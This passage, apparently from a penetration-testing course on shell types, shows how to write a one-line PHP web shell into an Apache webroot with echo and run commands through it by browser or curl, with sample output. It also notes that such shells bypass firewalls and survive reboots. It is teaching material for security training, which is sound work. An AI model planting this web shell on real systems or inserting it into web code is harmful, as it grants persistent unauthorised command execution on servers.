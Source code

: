 We can check these directories to see which webroot is in use and then use `echo` to write out our web shell. For example, if we are attacking a Linux host running Apache, we can write a `PHP` shell with the following command:

Code: bash

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

___

#### Accessing Web Shell

Once we write our web shell, we can either access it through a browser or by using `cURL`. We can visit the `shell.php` page on the compromised website, and use `?cmd=id` to execute the `id` command:

![](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

Another option is to use `cURL`:

Types of Shells

```shell
6165@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, we can keep changing the command to get its output. A great benefit of a web shell is that it would bypass any firewall restriction in place, as it will not open a new connection on a port but run on the web port on `80` or `443`, or whatever port the web application is using. Another great benefit is that if the compromised host is rebooted, the web shell would still be in place, and we can access it and get command execution without exploiting the remote host again.

On the other hand, a web shell is not as interactive as reverse and bind shells are since we have to keep requesting a different URL to execute our commands. Still, in extreme cases, it is possible to code a `Python` script to automate this process and give us a semi-interactive web shell right within our terminal.